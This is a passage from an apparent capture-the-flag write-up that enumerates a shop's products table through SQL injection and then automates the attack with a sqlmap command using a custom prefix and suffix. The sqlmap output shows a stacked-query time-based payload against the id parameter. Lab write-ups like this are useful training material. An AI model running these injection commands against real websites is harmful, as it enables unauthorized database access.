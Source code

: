 ![image-20240110102001914](../img/image-20240110102001914.png)

Comparing this to the page (and looking at the raw HTML), I can assert that
the products table probably has the following columns:

  1. Likely ID (not shown on page)
  2. Product Name
  3. Features paragraph
  4. Sale price
  5. Regular price
  6. Max number allowed to add to cart
  7. Image name
  8. unknown

I can enumerate the rest of the database, but there’s not much interesting in
it.

#### sqlmap

All of this SQL injection can be automated using `sqlmap`. I’ll need to use
the `--prefix` and `--suffix` parameters to add the leading newline and the
trailing digit, and it needs at least `--level 2` to find it:

    
    
    oxdf@hacky$ sqlmap -u "http://10.10.11.229/shop/?page=product&id=1" --prefix "%0A%0D'" --suffix="'-- -1" -p id --batch --level 2
    ...[snip]...
    GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 162 HTTP(s) requests:
    ---
    Parameter: id (GET)
        Type: stacked queries
        Title: MySQL >= 5.0.12 stacked queries (comment)
        Payload: page=product&id=1
    ';SELECT SLEEP(5)'-- -1
    ---
    [09:14:55] [INFO] the back-end DBMS is MySQL
    ...[snip]...
    